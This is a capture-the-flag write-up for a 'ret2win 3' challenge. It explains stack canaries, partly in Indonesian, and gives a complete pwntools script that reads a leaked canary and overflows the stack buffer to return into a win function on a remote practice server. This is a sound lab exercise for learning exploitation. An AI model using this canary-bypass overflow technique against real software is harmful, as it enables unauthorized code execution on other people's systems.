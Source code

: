 ```yaml
---
description: Binary Exploitation
---
```


# ret2win 3

> Salah satu mitigasi dari buffer overflow di stack adalah canary. Canary adalah 8 byte random yang diletakkan sebelum saved RBP. Jadi, kalau kita overwrite saved RIP menggunakan buffer overflow, canary pasti akan ikut berubah. Canary akan diperiksa oleh program setiap sebelum keluar fungsi dan kalau canary-nya berubah dari sebelumnya, berarti telah terjadi buffer overflow dan program akan dihentikan. Tapi, kalau kita tau canary-nya, kita tinggal masukin ke payload kita di offset yang sesuai.
>
> Author: **zran**

{% file src="../../.gitbook/assets/ret2win3.zip" %}

First time learning canaries, a simple canary challenge where the binary leaks the canary for you and leaves you to work to return to the win function. Simple buffer overflow by finding the offset to the canary and the EIP.

Start by finding the offset to EIP with cyclic patterns:

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption><p>Breakpoint set at the canary comparison</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption><p>Cyclic lookup</p></figcaption></figure>

After replacing the correct offset with canary, find the offset to EIP which was 8 bytes and insert a stack alignment gadget followed by the win function:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ret2win --host playground.tcp1p.team --port 19002
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'ret2win')
context.terminal = ['tmux', 'splitw', '-h']

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'playground.tcp1p.team'
port = int(args.PORT or 19002)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

offset_eip = 120
ret = 0x000000000040101a
win = 0x0000000000401236

log.info(io.recvuntil(': '))
canary = int(io.recvline(), 16)
log.success(f"Canary Leak: {hex(canary)}")
log.info(io.clean())

payload = b'A' * 104
payload += p64(canary)
payload += b'A' * 8
payload += p64(ret)
payload += p64(win)

log.info(f"payload: {payload}")
io.sendline(payload)
log.info(io.clean())

io.interactive()
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>
